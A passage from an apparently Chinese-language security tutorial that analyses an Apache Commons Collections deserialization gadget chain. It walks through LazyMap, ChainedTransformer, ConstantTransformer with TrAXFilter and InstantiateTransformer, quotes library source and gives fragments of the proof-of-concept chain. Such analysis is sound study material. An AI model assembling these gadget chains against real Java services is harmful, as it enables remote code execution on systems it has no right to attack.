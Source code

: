 我们其实是对LazyMap做了一个代理,所以这里是会去调用LazyMap的get方法的

接下来执行`Object value = factory.transform(key);`

![image-20220120215237770](images/4.png)

再看看控制器factory的值怎么来的

```
protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    }
    this.factory = factory;
}
```

不过构造函数是受保护的,但是在CC1中已经提到了,在这个类里面有个decorate修饰是共有的

```
public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}
```

可以直接调用decorate方法来对LazyMap进行一个回调,调用其构造器对factory进行赋值

```
Map innermap = new HashMap();
Map outmap = LazyMap.decorate(innermap,chain);
```

跟进transform方法相对应的POC代码如下

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};

ChainedTransformer chain = new ChainedTransformer(transformers);
```

![image-20220120215553998](images/5.png)

可见调用了`ChainedTransformer`的transform方法,这个方法在CC1中也很熟悉了,对数组中的对象的transform挨个调用,参数是上一个对象,不过这里我们不像CC1那样在这里命令执行

以上都是CC1的内容

这里通过`ConstantTransformer`的`transform`方法返回一个`TrAXFilter`的实例化对象,再调用`InstantiateTransformer`的`transform`方法,参数是`TrAXFilter`对象

ConstantTransformer是老熟人了，这里就直接看InstantiateTransformer了

其transform方法的重要代码如下

```
public Object transform(Object input) {
    try {
        if (input instanceof Class == false) {
            throw new FunctorException(
                "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                    + (input == null ? "null object" : input.getClass().getName()));
        }
        Constructor con = ((Class) input).getConstructor(iParamTypes);
        return con.newInstance(iArgs);
```
